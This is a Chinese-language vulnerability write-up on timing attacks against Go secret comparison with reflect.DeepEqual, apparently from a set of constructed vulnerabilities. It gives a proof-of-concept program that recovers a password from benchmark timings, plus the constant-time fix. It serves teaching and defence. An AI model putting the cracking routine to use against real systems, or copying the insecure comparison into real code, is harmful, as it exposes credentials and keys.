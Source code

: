 # 1. [DC-10]敏感信息比较时的时序攻击

## 1.1. 漏洞标签

`crypt` `information leak`

## 1.2. 漏洞描述

时序攻击(timing/side channel attacks)，

Go语言中，如果 `byte` `slice` 中含有验证用户身份的数据（密文哈希、`token` 等），不应再使用 `reflect.DeepEqual()`、`bytes.Equal()`、 `bytes.Compare()`、`bytes.EqualFold()`。这三个函数容易对程序造成 `timing attacks`，此时应使用 `crypto/subtle` 包中的 `subtle.ConstantTimeCompare()` 等函数。

## 1.3. 漏洞分析

文件位置： `crypto/ed25519/ed25519.go`

```go
func (privKey PrivKeyEd25519) Equals(other crypto.PrivKey) bool {
	if otherEd, ok := other.(PrivKeyEd25519); ok {
		return reflect.DeepEqual(privKey[:], otherEd[:])
	} else {
		return false
	}
}
```

因为 `reflect.DeepEqual` 的运算时间与字符内容有关，会有被时序攻击的危险，因此这里换用 `subtle.ConstantTimeCompare`, 让 `private key` 和 `signature` 的比较时间一致。

>`func ConstantTimeCompare(x, y []byte) int` 当且仅当两个切片x和y具有相等的内容时，ConstantTimeCompare 返回1。所花费的时间是切片长度的函数，并且与内容无关。

## 1.4. 复现或测试步骤

此处单独针对函数进行测试

```go
package main

import (
	"container/heap"
	"flag"
	"fmt"
	"log"
	"reflect"
	T "testing"
	"time"
)

var (
	password = flag.String("password", "secret", "The password to try and guess")
	letters  = []byte("abcdefghijklmnopqrstuvwxyz")
)

type TestRun struct {
	Time int64
	Byte byte
}

type Times []TestRun

func (t Times) Len() int           { return len(t) }
func (t Times) Less(i, j int) bool { return t[i].Time > t[j].Time }
func (t Times) Swap(i, j int)      { t[i], t[j] = t[j], t[i] }

func (t *Times) Push(v interface{}) {
	*t = append(*t, v.(TestRun))
}

func (t *Times) Pop() interface{} {
	a := *t
	n := len(a)
	v := a[n-1]
	*t = a[0 : n-1]
	return v
}

func Crack(password []byte) []byte {
	fmt.Println(password)
	n := len(password)
	guess := make([]byte, n)
	for index := range password {
		times := make(Times, 0)
		for _, letter := range letters {
			guess[index] = letter
			result := T.Benchmark(func(b *T.B) {
				for i := 0; i < b.N; i++ {
					// use reflect.DeepEqual() here
					reflect.DeepEqual(password,guess)
				}
			})
			heap.Push(&times, TestRun{
				Time: result.NsPerOp(),
				Byte: letter,
			})
			log.Printf("took %s (%d ns/op) to try %q for index %d", result.T, result.NsPerOp(), letter, index)
		}
		tr := heap.Pop(&times).(TestRun)
		guess[index] = tr.Byte
		log.Printf("best guess is %q for index %d", tr.Byte, index)
		log.Printf("guess is now: %s", guess)
	}
	return guess
}


func main() {
	flag.Parse()
	var guess []byte
	pw := []byte(*password)
	start := time.Now()
	Crack(pw)
	end := time.Now()
	dur := end.Sub(start)
	log.Printf("password guess after %s is: %s", dur, guess)
}

```

执行 `go run timing_attack.go`

![1](./pic/1.png)

可以看到通过时序攻击，获取到敏感信息 `secret`。

## 1.5. 修复

将 `reflect.DeepEqual` 替换成 `subtle.ConstantTimeCompare`。

本漏洞相关修复见 : [Fix](https://github.com/tendermint/tendermint/commit/3df2ca128d12a20c63fb05fd20d37132b7576760)

(注：本漏洞制作与原漏洞位置有所不同)

![MDY6Q29tbWl0MTQ4NTU4NTkxOmM3NWZlYTljOTRlZDkwMDkwYjc2NjUxNGU0Y2QyYWJjZTJmYjdhZTc=_1](./pic/MDY6Q29tbWl0MTQ4NTU4NTkxOmM3NWZlYTljOTRlZDkwMDkwYjc2NjUxNGU0Y2QyYWJjZTJmYjdhZTc=_1.png)

## 1.6. 相关资料

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/2049)

漏洞代码: [链接](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)